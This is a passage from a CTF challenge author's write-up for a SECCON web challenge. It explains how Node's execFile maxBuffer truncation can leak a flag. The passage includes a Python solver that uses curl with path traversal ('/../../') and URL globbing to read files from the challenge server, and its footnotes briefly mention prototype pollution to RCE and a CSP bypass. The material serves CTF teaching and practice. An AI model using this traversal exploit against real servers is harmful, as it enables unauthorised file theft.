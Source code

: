 It causes an error and the `stdout` of the error object is a prefix of the file content.

[Noje.js docs](https://nodejs.org/dist/latest-v19.x/docs/api/child_process.html#child_processexecfilefile-args-options-callback) says the following for `maxBuffer` option of `execFile`:

> `maxBuffer` `<number>`: Largest amount of data in bytes allowed on stdout or stderr. If exceeded, the child process is terminated and any output is truncated. See caveat at maxBuffer and Unicode. Default: 1024 * 1024.

So, with this specification, making `"SECCON{...}".slice(0, -1)` as a result of curl execution is to steal a flag. In fact, it is possible using URL globbing of curl. See the following Solver section.

### Solver

```python
import os
import re
import subprocess

BASE_URL = f"http://{os.getenv('SECCON_HOST')}:{os.getenv('SECCON_PORT')}"


def curl(files: list[str]) -> bytes:
    proc = subprocess.run(
        [
            "curl",
            "--globoff",
            "--path-as-is",
            BASE_URL + "/../../{" + ",".join(files) + "}",
        ],
        capture_output=True
    )
    assert proc.returncode == 0
    return proc.stdout


files = [
    "bin/tar",
    "bin/sed",
    "bin/gunzip",
    "app/package.json",
    "app/package.json",
    "app/package.json",
    "app/package.json",
    "app/package.json",
]

assert len(curl(files)) < 1024 * 1024
assert len(curl(files)) == 1048467

for i in range(1000):
    flag_file = "/"*i + "flag.txt"
    stdout = curl(files + [flag_file]).decode()
    if stdout == "🤔":
        continue
    else:
        print(f"{i = }")
        print(re.search(r"SECCON{\w+", stdout).group(0) + "}")
        exit(0)
print("Failed")
```


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell